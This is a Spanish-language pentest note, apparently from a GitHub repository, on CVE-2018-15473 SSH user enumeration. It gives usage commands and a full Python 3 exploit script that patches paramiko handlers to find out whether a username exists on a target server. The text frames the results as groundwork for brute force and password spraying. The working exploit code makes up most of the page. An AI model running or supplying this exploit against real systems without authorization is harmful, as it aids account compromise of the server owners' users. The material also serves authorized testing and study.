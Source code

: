 # CVE-2018-15473 – Enumeración de usuarios SSH

## Información general

Este documento recoge la explotación de la vulnerabilidad **CVE-2018-15473**, que afecta al servicio SSH y permite enumerar usuarios válidos en un sistema remoto.  
El fallo se debe a la manera en que el servidor responde de forma diferente cuando el usuario existe o no durante el proceso de autenticación.

## Créditos

El exploit original fue desarrollado por **Matthew Daley, Justin Gardner y Lee David Painter**.  
Nuestra versión está **adaptada a Python 3** para que pueda ejecutarse en sistemas actuales sin necesidad de instalar Python 2.

## Contexto de la vulnerabilidad

Cuando realizamos una autenticación SSH, el servidor responde de forma distinta si el usuario no existe que si existe pero la clave es inválida. Esta diferencia en el flujo de mensajes permite realizar un ataque de enumeración de usuarios de manera remota.

Este tipo de vulnerabilidad se aprovecha en fases tempranas de un pentest, ya que conocer usuarios válidos nos ayuda posteriormente a realizar ataques de fuerza bruta, password spraying o a buscar credenciales filtradas en fuentes públicas.

## Dependencias

Antes de ejecutar el exploit debemos instalar `paramiko` en Python 3:

```bash
pip install paramiko
```

---

## Uso

La sintaxis básica es la siguiente:

```bash
python3 ssh_enum.py <target> -p <port> <username>
```

Ejemplo:

```bash
python3 ssh_enum.py 192.168.1.74 -p 22 root
```

- Si el usuario existe → `[+] root es un usuario válido`
    
- Si el usuario no existe → `[-] root no es un usuario válido`

---

## Script adaptado a Python 3

```python
#!/usr/bin/env python3
# CVE-2018-15473 SSH User Enumeration by Leap Security (@LeapSecurity) https://leapsecurity.io
# Original credits: Matthew Daley, Justin Gardner, Lee David Painter
# Adaptado a Python3 para compatibilidad y uso actual

import argparse, logging, paramiko, socket, sys, os

class InvalidUsername(Exception):
    pass

# malicious function to malform packet
def add_boolean(*args, **kwargs):
    pass

# function that'll be overwritten to malform the packet
old_service_accept = paramiko.auth_handler.AuthHandler._client_handler_table[
        paramiko.common.MSG_SERVICE_ACCEPT]

# malicious function to overwrite MSG_SERVICE_ACCEPT handler
def service_accept(*args, **kwargs):
    paramiko.message.Message.add_boolean = add_boolean
    return old_service_accept(*args, **kwargs)

# call when username was invalid
def invalid_username(*args, **kwargs):
    raise InvalidUsername()

# assign functions to respective handlers
paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT] = service_accept
paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_USERAUTH_FAILURE] = invalid_username

# perform authentication with malicious packet and username
def check_user(username):
    sock = socket.socket()
    sock.connect((args.target, int(args.port)))
    transport = paramiko.transport.Transport(sock)

    try:
        transport.start_client()
    except paramiko.ssh_exception.SSHException:
        print('[!] Fallo en la conexión SSH')
        sys.exit(2)

    try:
        transport.auth_publickey(username, paramiko.RSAKey.generate(2048))
    except InvalidUsername:
        print(f"[-] {username} no es un usuario válido")
        sys.exit(3)
    except paramiko.ssh_exception.AuthenticationException:
        print(f"[+] {username} es un usuario válido")

# remove paramiko logging
logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

parser = argparse.ArgumentParser(description='SSH User Enumeration by Leap Security (@LeapSecurity) - Adaptado a Python3 por Metahumo')
parser.add_argument('target', help="Dirección IP del sistema objetivo")
parser.add_argument('-p', '--port', default=22, help="Introduce puerto SSH")
parser.add_argument('username', help="Usuario que se quiere validar")

if len(sys.argv) == 1:
    parser.print_help()
    sys.exit(1)

args = parser.parse_args()

check_user(args.username)
```

---
